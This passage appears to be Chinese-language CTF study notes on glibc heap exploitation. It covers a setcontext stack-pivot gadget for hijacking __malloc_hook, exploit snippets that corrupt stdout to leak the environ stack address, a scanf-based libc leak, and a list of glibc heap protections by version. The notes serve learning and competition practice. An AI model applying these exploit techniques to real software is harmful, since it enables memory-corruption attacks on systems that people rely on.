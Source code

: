 ```C
size = read(0, s, 0x400uLL);
  if ( size <= 0 )
    error("io");
  s[size - 1] = 0;
  if ( size <= 0x7F || size > 0x400 )
    error("poor hero name");
  *((_QWORD *)&chunklist + 2 * idx) = calloc(1uLL, size);
```

- 如果往栈上写入rop，并且打malloc\_hook，可以找一个magic gadget,如下所示，将rip指向rop链，也进行了函数执行的控制。
- 这种gadget要自己到libc.so文件里面找

```text
magic_gadget = libc_base + libc.sym['setcontext']+53
add rsp, 0x48 ; ret
```

environ
-------

```python
stdout = libc_base + libc.sym['_IO_2_1_stdout_']
environ = libc_base + libc.sym['environ']
delete(7)
add(0x80,'aaaa') #0
delete(8)
add(0x70,'aaaa') #1
add(0x90,p64(0)+p64(0x91)+p64(stdout)) #2
add(0x80,'aaaa') #3
#利用stdout泄露出stack_addr
add(0x80,p64(0xfbad1800)+p64(0)*3+p64(environ)+p64(environ+8)) #4
```

- 在Linux C中，environ是一个全局变量，它储存着系统的环境变量。,它储存在libc中,因此environ是沟通libc地址与栈地址的桥梁.通过libc找到environ地址后，泄露environ地址处的值，可以得到环境变量地址，环境变量保存在栈中，通过偏移可以得到栈上任意变量的地址。
- 得到栈地址后要自己dbg算出retaddr，栈中相对偏移是不变的

scanf的trick
-----------

- 使用 scanf 获取内容时，如果 输入字符串比较长会调用 malloc 来分配内存。因此可以调用malloc consolidate函数实现合并fastchunks到unsorted bin进而泄露libc

```python
createlarge(0x400*'1')
```

保护机制变动
======

[一篇讲这个的博客](https://www.roderickchan.cn/zh-cn/2023-03-01-analysis-of-glibc-heap-exploitation-in-high-version/#1-1-tcachebin)  
[house系列](https://www.roderickchan.cn/zh-cn/2023-02-27-house-of-all-about-glibc-heap-exploitation/)

- tcachebin 堆指针异或加密（glibc-2.32 引入）
- fastbin 堆指针异或加密（glibc-2.32 引入）
- 堆内存对齐检查（glibc-2.32 引入）
- tcahebin 链的数量检查（glibc-2.33 引入）
- 移除\_\_malloc\_hook 和\_\_free\_hook（glibc-2.34 引入）
- 引入 tcache\_key 作为 tcache 的 key 检查（glibc-2.34 引入）
- \_\_malloc\_assert 移除掉 IO 处理函数（glibc-2.36 引入）
- 移除\_\_malloc\_assert 函数（glibc-2.37 引入）
- 将 global\_max\_fast 的数据类型修改为 uint8\_t（glibc-2.37 引入）
